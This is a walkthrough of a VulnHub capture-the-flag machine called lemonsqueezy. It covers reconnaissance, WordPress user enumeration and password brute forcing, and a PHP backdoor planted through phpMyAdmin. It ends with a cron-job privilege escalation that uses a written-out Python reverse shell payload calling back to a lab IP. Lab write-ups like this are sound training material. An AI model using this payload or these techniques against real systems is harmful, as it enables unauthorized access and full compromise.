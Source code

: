 # GETTING STARTED

To download **lemonsqueezy** click on the link given below

https://www.vulnhub.com/entry/lemonsqueezy-1,473/

> [!NOTE] 
> This writeup documents the steps that successfully led to pwnage of the machine. It does not include the dead-end steps encountered during the process (which were numerous). This is just my take on pwning the machine and you are welcome to choose a different path.


# RECONNAISSANCE

I performed an **nmap** aggressive scan on the target to find information about open ports and running services.

![[IMAGES/1.png]]

# INITIAL ACCESS

Since the target was running a web server, I accessed it using a browser and found a default landing page.

![[IMAGES/2.png]]

I performed a fuzz scan using **dirb** to find other files and directories on the server.

![[IMAGES/3.png]]

![[IMAGES/4.png]]

Hence, I found two interesting directories, **wordpress** and **phpmyadmin**.

I visited the *wordpress* page and, upon scrolling to the bottom, found a link that took me to a login page.

![[IMAGES/5.png]]

![[IMAGES/6.png]]

![[IMAGES/7.png]]

Hence, I used **wpscan** to find users on the WordPress website.

![[IMAGES/8.png]]

![[IMAGES/9.png]]

I found two users, so I tried logging in as them on the login panel using *password* as the password.

![[IMAGES/10.png]]

I received an error indicating that I had provided an incorrect password. So, I used **hydra** to find the correct password for the user.

![[IMAGES/11.png]]

Hence, I logged into the WordPress site using these credentials.

![[IMAGES/12.png]]

I looked around and found something interesting in the *Posts* tab.

![[IMAGES/13.png]]

This could be a password, so I tried using it on the *phpmyadmin* page.

![[IMAGES/14.png]]

![[IMAGES/15.png]]

Hence, I gained access to the page containing the database information. I inspected the *wordpress* database and found the *wp_users* table that contained the password hash of both the users.

![[IMAGES/16.png]]

Here, I replaced the hash of *lemon* with *orange* so that I could access that user's WordPress panel with a password that I knew.

![[IMAGES/17.png]]

I logged into the WordPress site as *lemon* and found some more tabs.

![[IMAGES/18.png]]

I tried to upload a **php** reverse shell at *Appearance --> Editor --> 404 template* but did not have enough permissions.

Hence, I went back to the *phpmyadmin* page and found a tab that allowed me to execute an **SQL** query.

![[IMAGES/19.png]]

I created a **php** backdoor using SQL by executing the following query

![](IMAGES/20.png)

![[IMAGES/21.png]]

I visited the WordPress site and attempted to execute a command using this backdoor.

![](IMAGES/22.png)

Since it worked, I attempted to get a reverse shell out of it.
- I visited **revshell.com** and copied an **nc** reverse shell payload.
- I started a **netcat** listener and pasted the payload into the browser.

![](IMAGES/23.png)

![](IMAGES/24.png)

![](IMAGES/25.png)

Next, I spawned a tty shell using Python.

![](IMAGES/26.png)

I looked around in the directories and found the user flag.

![](IMAGES/27.png)

# PRIVILEGE ESCALATION

Now I moved into the */var/www/html/wordpress* directory and downloaded the **linux smart enumeration** script.

![](IMAGES/28.png)

![](IMAGES/29.png)

I then ran the script.

![](IMAGES/30.png)

The script identified an interesting file that was executed by the crontab as root and had modification permissions for all users.

![](IMAGES/31.png)

![](IMAGES/32.png)

Hence, the next thing I did was navigate to the folder and view the file.

![](IMAGES/33.png)

I then used the following **python** reverse shell payload.

```python

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

I added this payload into the file and started a **nc** listener.

![](IMAGES/34.png)

I viewed the modified Python file.

![](IMAGES/35.png)

Finally, I checked my listener and quickly got a reverse shell.

![](IMAGES/36.png)

Now with root access, I captured the root flag from the */root* directory.

![](IMAGES/37.png)

# CLOSURE

Here's a brief summary of how I compromised **lemonsqueezy** and captured both flags:
- I discovered 2 login panels, */wordpress/wp-login.php* and */phpmyadmin*, by fuzzing directories of the web server.
- Using **wpscan**, I identified available users.
- I found the password for *orange* and logged into the WordPress site using those credentials.
- I obtained the password for *orange*'s *phpmyadmin* page.
- Using this, I logged into *phpmyadmin* and created a backdoor using an **SQL** query.
- I leveraged the backdoor to establish a foothold and captured the user flag by navigating up a few directories.
- I discovered a file executed as root through **cron jobs** with modification permissions.
- I uploaded my own **Python** reverse shell code into it and obtained a reverse shell as **root**
- Finally, I captured the second flag from the */root* directory.

![](IMAGES/x.png)

That concludes my writeup. Until next time!

---